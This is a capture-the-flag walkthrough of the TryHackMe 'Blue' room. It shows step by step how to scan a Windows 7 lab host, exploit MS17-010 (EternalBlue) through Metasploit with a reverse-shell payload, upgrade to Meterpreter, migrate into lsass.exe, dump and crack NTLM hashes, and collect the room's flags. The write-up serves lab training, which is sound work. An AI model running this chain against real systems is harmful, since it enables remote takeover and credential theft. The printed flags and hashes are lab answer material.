# NULLSECURE - FROM BLUE TO SYSTEM

🎥 Video Walkthrough: [[VIDEO LINK](https://youtu.be/JXyJ7ZXknS8)]

# Blue — TryHackMe Full Walkthrough


| **Room**        | [Blue](https://tryhackme.com/room/blue)                                                                                                                                                                                                  |
| --------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Difficulty**  | Easy                                                                                                                                                                                                                                     |
| **Target IP**   | 10.10.XXX.XXX (mapped to `blue` in `/etc/hosts`)                                                                                                                                                                                         |
| **OS**          | Windows 7 Professional SP1 (x64)                                                                                                                                                                                                         |
| **Attack Path** | Nmap/RustScan Recon → SMB Fingerprinting → MS17-010 (EternalBlue) Identification → Metasploit Exploitation → Reverse Shell → Meterpreter Upgrade → Process Migration (lsass.exe) → Hash Dump → NTLM Cracking (Hashcat) → Flag Collection |

---

## Overview

Blue is TryHackMe's dedicated recreation of the vulnerability behind the 2017 WannaCry outbreak: **MS17-010**, better known by its Metasploit module name, **EternalBlue**. The box boots as a stock Windows 7 SP1 host with SMB exposed and unpatched, which means the entire path from anonymous external attacker to NT AUTHORITY\SYSTEM runs through a single pre-built Metasploit exploit — no credentials, no web app, no manual exploit development. What makes the room worth documenting isn't the exploit itself (it's one `exploit` command) but everything around it: fingerprinting the target as vulnerable before firing, stabilizing and upgrading the resulting shell, migrating into a protected process for a safer foothold, and then looting and cracking the SAM database for completeness even though privilege escalation was never actually required.

**Tools used:** RustScan, Nmap, Metasploit Framework (`msfconsole`), Meterpreter, Hashcat, Neovim

---

## Recon

Mapped the target to a hostname first for convenience:

```bash
sudo nvim /etc/hosts
# 10.10.XXX.XXX   blue
```



Ran a fast port sweep with RustScan piped into Nmap for service/version detection, skipping host discovery since TryHackMe targets don't reliably respond to ICMP:

```bash
rustscan -a blue --ulimit 5000 -- -sC -sV -Pn
```




The scan came back with the classic EternalBlue port spread:

```
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows 7 Professional 7601 Service Pack 1 microsoft-ds
```

Three open ports, all SMB/RPC-related, on a fingerprinted **Windows 7 SP1** host — more than enough of a signal to go straight after MS17-010.

---

## Vulnerability Identification

Windows 7 SP1 with SMB exposed on 445 and no other attack surface on the box is a strong fingerprint for **MS17-010 (EternalBlue)**, the SMBv1 remote code execution flaw patched in March 2017 and later weaponized in the WannaCry and NotPetya outbreaks. Rather than fingerprint it manually, went straight to Metasploit and let its built-in check confirm it:

```bash
msfconsole -q
search eternalblue
```



`exploit/windows/smb/ms17_010_eternalblue` came back as the top hit — the exact module for this CVE.

---

## Exploitation

Loaded the module and set it up against the target:

```bash
use exploit/windows/smb/ms17_010_eternalblue
options
set RHOSTS blue
set LHOST tun0
set payload windows/x64/shell/reverse_tcp
exploit
```




The exploit landed a plain `shell` session. Backgrounded it (`Ctrl+Z`, confirm with `y`) to work with it through Metasploit's session manager instead of a raw shell.

### Upgrading to Meterpreter

Listed the active sessions and upgraded the plain shell straight to Meterpreter:

```bash
sessions
sessions -u <session_id>
```



This is functionally the same as running the `post/multi/manage/shell_to_meterpreter` module manually (`search shell_to_meterpreter` → `use` it → `set LHOST tun0` → `set SESSION <session_id>` → `exploit`) — `sessions -u` just does it in one step.

Interacted with the new Meterpreter session:

```bash
sessions <meterpreter_session_id>
```



Since `ms17_010_eternalblue` executes as the SMB service account, the Meterpreter session was already running as **NT AUTHORITY\SYSTEM** — no separate privilege escalation step was needed on this box.

---

## Post-Exploitation — Credential Harvesting

Migrated into `lsass.exe` for a more stable, protected foothold before touching credentials:

```bash
meterpreter > migrate -N lsass.exe
```



Dumped the local SAM database straight from the SYSTEM-level session:

```bash
meterpreter > hashdump
```



Saved the hashes locally and ran them through Hashcat against rockyou.txt for completeness:

```bash
nvim hash.txt
```
```
f3118544a831e728781d780cfdb9c1fa
31d6cfe0d16ae931b73c59d7e0c089c0
ffb43f0de35be4d9917ac0cc8ad57f8d
```

```bash
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
```



---

## Flag Collection

With a SYSTEM-level Meterpreter shell already in hand, the three flags were just a matter of walking the filesystem:

```bash
meterpreter > cd C:\\
meterpreter > ls
meterpreter > cat flag1.txt
```
**Flag 1:** `flag{access_the_machine}`



```bash
meterpreter > cd C:\\Windows\\System32\\config
meterpreter > cat flag2.txt
```
**Flag 2:** `flag{sam_database_elevated_access}`



```bash
meterpreter > cd C:\\Users\\Jon\\Documents
meterpreter > cat flag3.txt
```
**Flag 3:** `flag{admin_documents_can_be_valuable}`



---

## Conclusion

| Stage | Technique | Result |
|---|---|---|
| Recon | RustScan + Nmap | Identified SMB/RPC on 135, 139, 445 — Windows 7 SP1 |
| Vuln ID | Port/OS fingerprint + Metasploit search | Confirmed `exploit/windows/smb/ms17_010_eternalblue` applies |
| Exploitation | MS17-010 EternalBlue (Metasploit) | Reverse shell as SYSTEM |
| Post-Exploitation | `sessions -u` | Upgraded shell to Meterpreter |
| Post-Exploitation | `migrate -N lsass.exe` | Stabilized foothold in a protected process |
| Credential Access | `hashdump` + Hashcat | Dumped and attempted to crack local NTLM hashes |
| Flags | Filesystem traversal | Recovered flag1, flag2, flag3 — no privesc required |

---

## Attack Chain Summary

```
Unauthenticated Recon
   └─ RustScan / Nmap (-Pn) → RPC(135) / NetBIOS(139) / SMB(445), Windows 7 SP1
        └─ Vulnerability ID → MS17-010 / EternalBlue fingerprint match
             └─ Metasploit (ms17_010_eternalblue) → reverse shell as SYSTEM
                  └─ sessions -u → Meterpreter upgrade
                       └─ migrate -N lsass.exe → stable foothold
                            └─ hashdump → local NTLM hashes (Hashcat attempted)
                                 └─ Filesystem walk → FLAG 1 / FLAG 2 / FLAG 3
```

---

*This writeup documents activity performed exclusively within an authorized TryHackMe lab environment for educational purposes. Do not apply these techniques against any system you do not own or have explicit written permission to test.*

**A1GCH ⚔ NullSecure**
